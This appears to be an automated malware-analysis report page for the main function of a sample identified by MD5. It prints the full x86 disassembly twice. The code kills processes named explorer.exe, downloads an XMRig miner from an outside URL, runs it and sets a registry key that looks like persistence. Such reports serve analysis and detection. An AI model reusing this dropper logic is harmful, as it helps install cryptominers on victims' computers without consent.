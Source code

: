 ```yaml
---
layout: post
title:  "main @ fca52b995e756cff97168f6fef94b37d"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** main
- **Origin (md5):** fca52b995e756cff97168f6fef94b37d
- **VirusTotal:** [virustotal.com/gui/file/fca52b995e756cff97168f6fef94b37d][virustotal_ref]

# Code Tags
<span class="tag" id="HTTP">HTTP</span>
<span class="tag" id="PROCESS">PROCESS</span>


# Behaviour Tags
<span class="bhv-tag" id="SCREENSHOTS_FOREGROUND_WINDOW">SCREENSHOTS_FOREGROUND_WINDOW / 0.035928278579712446</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [0, 0, '<b><a href="/report/main@fca52b995e756cff97168f6fef94b37d">main</a><br>@fca52b995e756cff97168f6fef94b37d</b><br>push ebp<br>mov ebp, esp<br>and esp, 0xfffffff0<br>sub esp, 0x908<br>mov eax, dword[0x41b010]<br>xor eax, esp<br>mov dword[esp+0x904], eax<br>push esi<br>push edi<br>xor eax, eax<br>mov dword[esp+0x10], 0<br>push 0x800<br>push eax<br>mov word[esp+0x30], ax<br>lea eax, [esp+0x110]<br>push eax<br>mov dword[esp+0x44], 0<br>mov dword[esp+0x48], 7<br>call fcn.00406cb0<br>add esp, 0xc<br>lea eax, [esp+0x108]<br>push eax<br>push 0<br>push 0<br>push 0x1a<br>push 0<br>call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]<br>test eax, eax<br>jne 0x402d06<br>lea ecx, [esp+0x108]<br>lea edx, [ecx+2]<br>mov ax, word[ecx]<br>add ecx, 2<br>test ax, ax<br>jne 0x402ce5<br>sub ecx, edx<br>lea eax, [esp+0x108]<br>sar ecx, 1<br>push ecx<br>push eax<br>lea ecx, [esp+0x30]<br>call fcn.004011e0<br>push str.Microsoftexplorer.exe<br>lea ecx, [esp+0x2c]<br>call fcn.00401320<br>xor ecx, ecx<br>movups xmm0, xmmword[eax]<br>movups xmmword[esp+0x70], xmm0<br>movq xmm0, qword[eax+0x10]<br>movq qword[esp+0x80], xmm0<br>mov dword[eax+0x10], 0<br>mov dword[eax+0x14], 7<br>mov word[eax], cx<br>mov edx, dword[esp+0x3c]<br>cmp edx, 8<br>jb 0x402d79<br>mov ecx, dword[esp+0x28]<br>lea edx, [edx*2+2]<br>mov eax, ecx<br>cmp edx, 0x1000<br>jb 0x402d6f<br>mov ecx, dword[ecx-4]<br>add edx, 0x23<br>sub eax, ecx<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x403401<br>push edx<br>push ecx<br>call fcn.00404ff5<br>add esp, 8<br>lea eax, [esp+0x70]<br>push eax<br>lea ecx, [esp+0x44]<br>call fcn.004039b0<br>push 0x41ca3c<br>push 0x403d50<br>push 0x41ca30<br>call fcn.00404336<br>add esp, 0xc<br>test eax, eax<br>je 0x403406<br>push 0x41ca3c<br>push 0x403d50<br>push 0x41ca30<br>call fcn.00404336<br>add esp, 0xc<br>test eax, eax<br>je 0x40340b<br>cmp dword[esp+0x54], 8<br>lea ecx, [esp+0x10]<br>lea eax, [esp+0x40]<br>cmovae eax, dword[esp+0x40]<br>push ecx<br>push eax<br>call fcn.004043ca<br>add esp, 8<br>cmp eax, 8<br>je 0x402e19<br>cmp eax, 0xffffffff<br>je 0x402e19<br>lea eax, [esp+0x70]<br>push eax<br>lea ecx, [esp+0x2c]<br>call fcn.004039b0<br>lea ecx, [esp+0x28]<br>call fcn.004027b0<br>cmp eax, 0x173a00<br>jne 0x402e0d<br>test edx, edx<br>je 0x402e20<br>mov byte[esp+0xf], 1<br>mov eax, 3<br>jmp 0x402e2a<br>mov eax, 1<br>jmp 0x402e25<br>mov eax, 3<br>mov byte[esp+0xf], 0<br>test al, 2<br>je 0x402e81<br>mov edx, dword[esp+0x3c]<br>cmp edx, 8<br>jb 0x402e6a<br>mov ecx, dword[esp+0x28]<br>lea edx, [edx*2+2]<br>mov eax, ecx<br>cmp edx, 0x1000<br>jb 0x402e60<br>mov ecx, dword[ecx-4]<br>add edx, 0x23<br>sub eax, ecx<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x403410<br>push edx<br>push ecx<br>call fcn.00404ff5<br>add esp, 8<br>xor eax, eax<br>mov dword[esp+0x38], 0<br>mov dword[esp+0x3c], 7<br>mov word[esp+0x28], ax<br>mov edx, dword[esp+0x54]<br>cmp edx, 8<br>jb 0x402ebd<br>mov ecx, dword[esp+0x40]<br>lea edx, [edx*2+2]<br>mov eax, ecx<br>cmp edx, 0x1000<br>jb 0x402eb3<br>mov ecx, dword[ecx-4]<br>add edx, 0x23<br>sub eax, ecx<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x403410<br>push edx<br>push ecx<br>call fcn.00404ff5<br>add esp, 8<br>cmp byte[esp+0xf], 0<br>mov edi, dword[sym.imp.KERNEL32.dll_CloseHandle]<br>je 0x403119<br>lea eax, [esp+0x70]<br>push eax<br>lea ecx, [esp+0x5c]<br>call fcn.004039b0<br>lea ecx, [esp+0x58]<br>call fcn.00402730<br>mov edx, dword[esp+0x6c]<br>mov byte[esp+0xf], al<br>cmp edx, 8<br>jb 0x402f29<br>mov ecx, dword[esp+0x58]<br>lea edx, [edx*2+2]<br>mov eax, ecx<br>cmp edx, 0x1000<br>jb 0x402f1b<br>mov ecx, dword[ecx-4]<br>add edx, 0x23<br>sub eax, ecx<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x403415<br>push edx<br>push ecx<br>call fcn.00404ff5<br>mov al, byte[esp+0x17]<br>add esp, 8<br>test al, al<br>je 0x403056<br>push 0xc<br>xor eax, eax<br>mov dword[esp+0x3c], 0<br>push str.explorer.exe<br>lea ecx, [esp+0x30]<br>mov dword[esp+0x44], 7<br>mov word[esp+0x30], ax<br>call fcn.004011e0<br>push 0<br>push 0xf<br>call dword[sym.imp.KERNEL32.dll_CreateToolhelp32Snapshot]<br>lea ecx, [esp+0x108]<br>mov dword[esp+0x10], eax<br>push ecx<br>push eax<br>mov dword[esp+0x110], 0x22c<br>call dword[sym.imp.KERNEL32.dll_Process32FirstW]<br>mov edi, dword[esp+0x28]<br>test eax, eax<br>je 0x40300e<br>nop dword[eax]<br>cmp dword[esp+0x3c], 8<br>lea eax, [esp+0x28]<br>lea ecx, [esp+0x12c]<br>cmovae eax, edi<br>mov dx, word[ecx]<br>cmp dx, word[eax]<br>jne 0x402fc9<br>test dx, dx<br>je 0x402fc5<br>mov dx, word[ecx+2]<br>cmp dx, word[eax+2]<br>jne 0x402fc9<br>add ecx, 4<br>add eax, 4<br>test dx, dx<br>jne 0x402fa3<br>xor eax, eax<br>jmp 0x402fce<br>sbb eax, eax<br>or eax, 1<br>test eax, eax<br>jne 0x402ff8<br>push dword[esp+0x110]<br>push eax<br>push 1<br>call dword[sym.imp.KERNEL32.dll_OpenProcess]<br>mov esi, eax<br>test esi, esi<br>je 0x402ff8<br>push 9<br>push esi<br>call dword[sym.imp.KERNEL32.dll_TerminateProcess]<br>push esi<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>lea eax, [esp+0x108]<br>push eax<br>push dword[esp+0x14]<br>call dword[sym.imp.KERNEL32.dll_Process32NextW]<br>test eax, eax<br>jne 0x402f90<br>push dword[esp+0x10]<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>mov eax, dword[esp+0x3c]<br>cmp eax, 8<br>jb 0x403050<br>lea ecx, [eax*2+2]<br>mov eax, edi<br>cmp ecx, 0x1000<br>jb 0x403046<br>mov edi, dword[edi-4]<br>add ecx, 0x23<br>sub eax, edi<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x40341a<br>push ecx<br>push edi<br>call fcn.00404ff5<br>add esp, 8<br>mov edi, dword[sym.imp.KERNEL32.dll_CloseHandle]<br>lea eax, [esp+0x70]<br>push eax<br>lea ecx, [esp+0x5c]<br>call fcn.004039b0<br>push 0x41ca3c<br>push 0x403d50<br>push 0x41ca30<br>mov dword[esp+0x1c], 0<br>call fcn.00404336<br>add esp, 0xc<br>test eax, eax<br>je 0x403406<br>lea edx, [esp+0x10]<br>mov dword[esp+0x14], 0x41ca3c<br>lea ecx, [esp+0x58]<br>call fcn.00402990<br>push 0x41ca3c<br>push 0x403d50<br>push 0x41ca30<br>call fcn.00404336<br>add esp, 0xc<br>test eax, eax<br>je 0x403406<br>mov eax, dword[esp+0x14]<br>mov eax, dword[eax+4]<br>cmp eax, dword[0x41ca40]<br>jne 0x403429<br>cmp dword[esp+0x10], 0<br>jne 0x403429<br>mov edx, dword[esp+0x6c]<br>cmp edx, 8<br>jb 0x403119<br>mov ecx, dword[esp+0x58]<br>lea edx, [edx*2+2]<br>mov eax, ecx<br>cmp edx, 0x1000<br>jb 0x40310f<br>mov ecx, dword[ecx-4]<br>add edx, 0x23<br>sub eax, ecx<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x40341f<br>push edx<br>push ecx<br>call fcn.00404ff5<br>add esp, 8<br>cmp dword[esp+0x84], 8<br>lea eax, [esp+0x70]<br>push 0<br>cmovae eax, dword[esp+0x74]<br>push 0<br>push eax<br>push str.http:__osdsoft.com_update20180524_xmrig_notls.exe<br>push 0<br>call dword[sym.imp.urlmon.dll_URLDownloadToFileW]<br>test eax, eax<br>jne 0x4033aa<br>call fcn.00404321<br>mov ecx, eax<br>cmp ecx, 1<br>jbe 0x403151<br>dec ecx<br>lea esi, [esp+0x106]<br>nop dword[eax+eax]<br>mov eax, 0xcccccccd<br>sub esi, 2<br>mul ecx<br>shr edx, 3<br>lea eax, [edx+edx*4]<br>add eax, eax<br>sub ecx, eax<br>add ecx, 0x30<br>mov word[esi], cx<br>mov ecx, edx<br>test ecx, ecx<br>jne 0x403160<br>xor eax, eax<br>mov dword[esp+0x38], edx<br>mov word[esp+0x28], ax<br>lea eax, [esp+0x106]<br>mov dword[esp+0x3c], 7<br>cmp esi, eax<br>je 0x4031ad<br>sub eax, esi<br>lea ecx, [esp+0x28]<br>sar eax, 1<br>push eax<br>push esi<br>call fcn.004011e0<br>lea eax, [esp+0x28]<br>push eax<br>push ecx<br>lea edx, [esp+0x78]<br>lea ecx, [esp+0x60]<br>call fcn.004015a0<br>add esp, 4<br>lea ecx, [esp+0x44]<br>mov edx, eax<br>call fcn.00401420<br>add esp, 4<br>mov dword[esp+0x90], 0x44<br>cmp dword[esp+0x54], 8<br>lea ecx, [esp+0x10]<br>xorps xmm0, xmm0<br>lea eax, [esp+0x40]<br>cmovae eax, dword[esp+0x40]<br>push ecx<br>lea ecx, [esp+0x94]<br>movlpd qword[esp+0x98], xmm0<br>push ecx<br>push 0<br>push 0<br>push 0x8000000<br>push 1<br>push 0<br>push 0<br>push eax<br>push 0<br>movlpd qword[esp+0xc4], xmm0<br>movlpd qword[esp+0xcc], xmm0<br>movlpd qword[esp+0xd4], xmm0<br>movlpd qword[esp+0xdc], xmm0<br>movlpd qword[esp+0xe4], xmm0<br>movlpd qword[esp+0xec], xmm0<br>movlpd qword[esp+0xf4], xmm0<br>movaps xmmword[esp+0x38], xmm0<br>call dword[sym.imp.KERNEL32.dll_CreateProcessW]<br>push dword[esp+0x10]<br>call edi<br>push dword[esp+0x14]<br>call edi<br>mov edx, dword[esp+0x54]<br>cmp edx, 8<br>jb 0x4032a7<br>mov ecx, dword[esp+0x40]<br>lea edx, [edx*2+2]<br>mov eax, ecx<br>cmp edx, 0x1000<br>jb 0x40329d<br>mov ecx, dword[ecx-4]<br>add edx, 0x23<br>sub eax, ecx<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x403424<br>push edx<br>push ecx<br>call fcn.00404ff5<br>add esp, 8<br>mov edx, dword[esp+0x6c]<br>cmp edx, 8<br>jb 0x4032e3<br>mov ecx, dword[esp+0x58]<br>lea edx, [edx*2+2]<br>mov eax, ecx<br>cmp edx, 0x1000<br>jb 0x4032d9<br>mov ecx, dword[ecx-4]<br>add edx, 0x23<br>sub eax, ecx<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x403468<br>push edx<br>push ecx<br>call fcn.00404ff5<br>add esp, 8<br>mov edx, dword[esp+0x3c]<br>xor eax, eax<br>mov dword[esp+0x68], 0<br>mov dword[esp+0x6c], 7<br>mov word[esp+0x58], ax<br>cmp edx, 8<br>jb 0x403336<br>mov ecx, dword[esp+0x28]<br>lea edx, [edx*2+2]<br>mov eax, ecx<br>cmp edx, 0x1000<br>jb 0x40332c<br>mov ecx, dword[ecx-4]<br>add edx, 0x23<br>sub eax, ecx<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x403468<br>push edx<br>push ecx<br>call fcn.00404ff5<br>add esp, 8<br>sub esp, 0x18<br>xor eax, eax<br>mov ecx, esp<br>push 1<br>mov dword[ecx+0x10], 0<br>mov dword[ecx+0x14], 7<br>push 0x4186a8<br>mov word[ecx], ax<br>call fcn.004011e0<br>sub esp, 0x18<br>xor eax, eax<br>mov ecx, esp<br>push 9<br>mov dword[ecx+0x10], 0<br>mov dword[ecx+0x14], 7<br>push 0x4186ac<br>mov word[ecx], ax<br>call fcn.004011e0<br>sub esp, 0x18<br>xor eax, eax<br>mov ecx, esp<br>push 0x1c<br>mov dword[ecx+0x10], 0<br>mov dword[ecx+0x14], 7<br>push str.SoftwareWindowsUpdaterxmru<br>mov word[ecx], ax<br>call fcn.004011e0<br>call fcn.00402b20<br>add esp, 0x48<br>mov edx, dword[esp+0x84]<br>cmp edx, 8<br>jb 0x4033e9<br>mov ecx, dword[esp+0x70]<br>lea edx, [edx*2+2]<br>mov eax, ecx<br>cmp edx, 0x1000<br>jb 0x4033df<br>mov ecx, dword[ecx-4]<br>add edx, 0x23<br>sub eax, ecx<br>add eax, 0xfffffffc<br>cmp eax, 0x1f<br>ja 0x40346d<br>push edx<br>push ecx<br>call fcn.00404ff5<br>add esp, 8<br>mov ecx, dword[esp+0x90c]<br>xor eax, eax<br>pop edi<br>pop esi<br>xor ecx, esp<br>call fcn.00404d1a<br>mov esp, ebp<br>pop ebp<br>ret 0x10<br>call fcn.004088d8<br>call fcn.00408aaf<br>call fcn.00408aaf<br>call fcn.004088d8<br>call fcn.004088d8<br>call fcn.004088d8<br>call fcn.004088d8<br>call fcn.004088d8<br>push str.remove_p_:_invalid_argument<br>lea ecx, [esp+0x44]<br>call fcn.00403610<br>lea ecx, [esp+0x10]<br>call fcn.00401d90<br>lea ecx, [esp+0x90]<br>push dword[eax+4]<br>push dword[eax]<br>lea eax, [esp+0x48]<br>push eax<br>call fcn.004024a0<br>push 0x41973c<br>lea eax, [esp+0x94]<br>push eax<br>call fcn.00406135<br>call fcn.004088d8<br>call fcn.004088d8<br>int3 <br><eoc> ', 'point { fill-color: #e0440e; }'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push ebp
mov ebp, esp
and esp, 0xfffffff0
sub esp, 0x908
mov eax, dword[0x41b010]
xor eax, esp
mov dword[esp+0x904], eax
push esi
push edi
xor eax, eax
mov dword[esp+0x10], 0
push 0x800
push eax
mov word[esp+0x30], ax
lea eax, [esp+0x110]
push eax
mov dword[esp+0x44], 0
mov dword[esp+0x48], 7
call fcn.00406cb0
add esp, 0xc
lea eax, [esp+0x108]
push eax
push 0
push 0
push 0x1a
push 0
call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]
test eax, eax
jne 0x402d06
lea ecx, [esp+0x108]
lea edx, [ecx+2]
mov ax, word[ecx]
add ecx, 2
test ax, ax
jne 0x402ce5
sub ecx, edx
lea eax, [esp+0x108]
sar ecx, 1
push ecx
push eax
lea ecx, [esp+0x30]
call fcn.004011e0
push str.Microsoftexplorer.exe
lea ecx, [esp+0x2c]
call fcn.00401320
xor ecx, ecx
movups xmm0, xmmword[eax]
movups xmmword[esp+0x70], xmm0
movq xmm0, qword[eax+0x10]
movq qword[esp+0x80], xmm0
mov dword[eax+0x10], 0
mov dword[eax+0x14], 7
mov word[eax], cx
mov edx, dword[esp+0x3c]
cmp edx, 8
jb 0x402d79
mov ecx, dword[esp+0x28]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x402d6f
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403401
push edx
push ecx
call fcn.00404ff5
add esp, 8
lea eax, [esp+0x70]
push eax
lea ecx, [esp+0x44]
call fcn.004039b0
push 0x41ca3c
push 0x403d50
push 0x41ca30
call fcn.00404336
add esp, 0xc
test eax, eax
je 0x403406
push 0x41ca3c
push 0x403d50
push 0x41ca30
call fcn.00404336
add esp, 0xc
test eax, eax
je 0x40340b
cmp dword[esp+0x54], 8
lea ecx, [esp+0x10]
lea eax, [esp+0x40]
cmovae eax, dword[esp+0x40]
push ecx
push eax
call fcn.004043ca
add esp, 8
cmp eax, 8
je 0x402e19
cmp eax, 0xffffffff
je 0x402e19
lea eax, [esp+0x70]
push eax
lea ecx, [esp+0x2c]
call fcn.004039b0
lea ecx, [esp+0x28]
call fcn.004027b0
cmp eax, 0x173a00
jne 0x402e0d
test edx, edx
je 0x402e20
mov byte[esp+0xf], 1
mov eax, 3
jmp 0x402e2a
mov eax, 1
jmp 0x402e25
mov eax, 3
mov byte[esp+0xf], 0
test al, 2
je 0x402e81
mov edx, dword[esp+0x3c]
cmp edx, 8
jb 0x402e6a
mov ecx, dword[esp+0x28]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x402e60
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403410
push edx
push ecx
call fcn.00404ff5
add esp, 8
xor eax, eax
mov dword[esp+0x38], 0
mov dword[esp+0x3c], 7
mov word[esp+0x28], ax
mov edx, dword[esp+0x54]
cmp edx, 8
jb 0x402ebd
mov ecx, dword[esp+0x40]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x402eb3
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403410
push edx
push ecx
call fcn.00404ff5
add esp, 8
cmp byte[esp+0xf], 0
mov edi, dword[sym.imp.KERNEL32.dll_CloseHandle]
je 0x403119
lea eax, [esp+0x70]
push eax
lea ecx, [esp+0x5c]
call fcn.004039b0
lea ecx, [esp+0x58]
call fcn.00402730
mov edx, dword[esp+0x6c]
mov byte[esp+0xf], al
cmp edx, 8
jb 0x402f29
mov ecx, dword[esp+0x58]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x402f1b
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403415
push edx
push ecx
call fcn.00404ff5
mov al, byte[esp+0x17]
add esp, 8
test al, al
je 0x403056
push 0xc
xor eax, eax
mov dword[esp+0x3c], 0
push str.explorer.exe
lea ecx, [esp+0x30]
mov dword[esp+0x44], 7
mov word[esp+0x30], ax
call fcn.004011e0
push 0
push 0xf
call dword[sym.imp.KERNEL32.dll_CreateToolhelp32Snapshot]
lea ecx, [esp+0x108]
mov dword[esp+0x10], eax
push ecx
push eax
mov dword[esp+0x110], 0x22c
call dword[sym.imp.KERNEL32.dll_Process32FirstW]
mov edi, dword[esp+0x28]
test eax, eax
je 0x40300e
nop dword[eax]
cmp dword[esp+0x3c], 8
lea eax, [esp+0x28]
lea ecx, [esp+0x12c]
cmovae eax, edi
mov dx, word[ecx]
cmp dx, word[eax]
jne 0x402fc9
test dx, dx
je 0x402fc5
mov dx, word[ecx+2]
cmp dx, word[eax+2]
jne 0x402fc9
add ecx, 4
add eax, 4
test dx, dx
jne 0x402fa3
xor eax, eax
jmp 0x402fce
sbb eax, eax
or eax, 1
test eax, eax
jne 0x402ff8
push dword[esp+0x110]
push eax
push 1
call dword[sym.imp.KERNEL32.dll_OpenProcess]
mov esi, eax
test esi, esi
je 0x402ff8
push 9
push esi
call dword[sym.imp.KERNEL32.dll_TerminateProcess]
push esi
call dword[sym.imp.KERNEL32.dll_CloseHandle]
lea eax, [esp+0x108]
push eax
push dword[esp+0x14]
call dword[sym.imp.KERNEL32.dll_Process32NextW]
test eax, eax
jne 0x402f90
push dword[esp+0x10]
call dword[sym.imp.KERNEL32.dll_CloseHandle]
mov eax, dword[esp+0x3c]
cmp eax, 8
jb 0x403050
lea ecx, [eax*2+2]
mov eax, edi
cmp ecx, 0x1000
jb 0x403046
mov edi, dword[edi-4]
add ecx, 0x23
sub eax, edi
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x40341a
push ecx
push edi
call fcn.00404ff5
add esp, 8
mov edi, dword[sym.imp.KERNEL32.dll_CloseHandle]
lea eax, [esp+0x70]
push eax
lea ecx, [esp+0x5c]
call fcn.004039b0
push 0x41ca3c
push 0x403d50
push 0x41ca30
mov dword[esp+0x1c], 0
call fcn.00404336
add esp, 0xc
test eax, eax
je 0x403406
lea edx, [esp+0x10]
mov dword[esp+0x14], 0x41ca3c
lea ecx, [esp+0x58]
call fcn.00402990
push 0x41ca3c
push 0x403d50
push 0x41ca30
call fcn.00404336
add esp, 0xc
test eax, eax
je 0x403406
mov eax, dword[esp+0x14]
mov eax, dword[eax+4]
cmp eax, dword[0x41ca40]
jne 0x403429
cmp dword[esp+0x10], 0
jne 0x403429
mov edx, dword[esp+0x6c]
cmp edx, 8
jb 0x403119
mov ecx, dword[esp+0x58]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x40310f
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x40341f
push edx
push ecx
call fcn.00404ff5
add esp, 8
cmp dword[esp+0x84], 8
lea eax, [esp+0x70]
push 0
cmovae eax, dword[esp+0x74]
push 0
push eax
push str.http:__osdsoft.com_update20180524_xmrig_notls.exe
push 0
call dword[sym.imp.urlmon.dll_URLDownloadToFileW]
test eax, eax
jne 0x4033aa
call fcn.00404321
mov ecx, eax
cmp ecx, 1
jbe 0x403151
dec ecx
lea esi, [esp+0x106]
nop dword[eax+eax]
mov eax, 0xcccccccd
sub esi, 2
mul ecx
shr edx, 3
lea eax, [edx+edx*4]
add eax, eax
sub ecx, eax
add ecx, 0x30
mov word[esi], cx
mov ecx, edx
test ecx, ecx
jne 0x403160
xor eax, eax
mov dword[esp+0x38], edx
mov word[esp+0x28], ax
lea eax, [esp+0x106]
mov dword[esp+0x3c], 7
cmp esi, eax
je 0x4031ad
sub eax, esi
lea ecx, [esp+0x28]
sar eax, 1
push eax
push esi
call fcn.004011e0
lea eax, [esp+0x28]
push eax
push ecx
lea edx, [esp+0x78]
lea ecx, [esp+0x60]
call fcn.004015a0
add esp, 4
lea ecx, [esp+0x44]
mov edx, eax
call fcn.00401420
add esp, 4
mov dword[esp+0x90], 0x44
cmp dword[esp+0x54], 8
lea ecx, [esp+0x10]
xorps xmm0, xmm0
lea eax, [esp+0x40]
cmovae eax, dword[esp+0x40]
push ecx
lea ecx, [esp+0x94]
movlpd qword[esp+0x98], xmm0
push ecx
push 0
push 0
push 0x8000000
push 1
push 0
push 0
push eax
push 0
movlpd qword[esp+0xc4], xmm0
movlpd qword[esp+0xcc], xmm0
movlpd qword[esp+0xd4], xmm0
movlpd qword[esp+0xdc], xmm0
movlpd qword[esp+0xe4], xmm0
movlpd qword[esp+0xec], xmm0
movlpd qword[esp+0xf4], xmm0
movaps xmmword[esp+0x38], xmm0
call dword[sym.imp.KERNEL32.dll_CreateProcessW]
push dword[esp+0x10]
call edi
push dword[esp+0x14]
call edi
mov edx, dword[esp+0x54]
cmp edx, 8
jb 0x4032a7
mov ecx, dword[esp+0x40]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x40329d
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403424
push edx
push ecx
call fcn.00404ff5
add esp, 8
mov edx, dword[esp+0x6c]
cmp edx, 8
jb 0x4032e3
mov ecx, dword[esp+0x58]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x4032d9
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403468
push edx
push ecx
call fcn.00404ff5
add esp, 8
mov edx, dword[esp+0x3c]
xor eax, eax
mov dword[esp+0x68], 0
mov dword[esp+0x6c], 7
mov word[esp+0x58], ax
cmp edx, 8
jb 0x403336
mov ecx, dword[esp+0x28]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x40332c
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403468
push edx
push ecx
call fcn.00404ff5
add esp, 8
sub esp, 0x18
xor eax, eax
mov ecx, esp
push 1
mov dword[ecx+0x10], 0
mov dword[ecx+0x14], 7
push 0x4186a8
mov word[ecx], ax
call fcn.004011e0
sub esp, 0x18
xor eax, eax
mov ecx, esp
push 9
mov dword[ecx+0x10], 0
mov dword[ecx+0x14], 7
push 0x4186ac
mov word[ecx], ax
call fcn.004011e0
sub esp, 0x18
xor eax, eax
mov ecx, esp
push 0x1c
mov dword[ecx+0x10], 0
mov dword[ecx+0x14], 7
push str.SoftwareWindowsUpdaterxmru
mov word[ecx], ax
call fcn.004011e0
call fcn.00402b20
add esp, 0x48
mov edx, dword[esp+0x84]
cmp edx, 8
jb 0x4033e9
mov ecx, dword[esp+0x70]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x4033df
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x40346d
push edx
push ecx
call fcn.00404ff5
add esp, 8
mov ecx, dword[esp+0x90c]
xor eax, eax
pop edi
pop esi
xor ecx, esp
call fcn.00404d1a
mov esp, ebp
pop ebp
ret 0x10
call fcn.004088d8
call fcn.00408aaf
call fcn.00408aaf
call fcn.004088d8
call fcn.004088d8
call fcn.004088d8
call fcn.004088d8
call fcn.004088d8
push str.remove_p_:_invalid_argument
lea ecx, [esp+0x44]
call fcn.00403610
lea ecx, [esp+0x10]
call fcn.00401d90
lea ecx, [esp+0x90]
push dword[eax+4]
push dword[eax]
lea eax, [esp+0x48]
push eax
call fcn.004024a0
push 0x41973c
lea eax, [esp+0x94]
push eax
call fcn.00406135
call fcn.004088d8
call fcn.004088d8
int3

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/fca52b995e756cff97168f6fef94b37d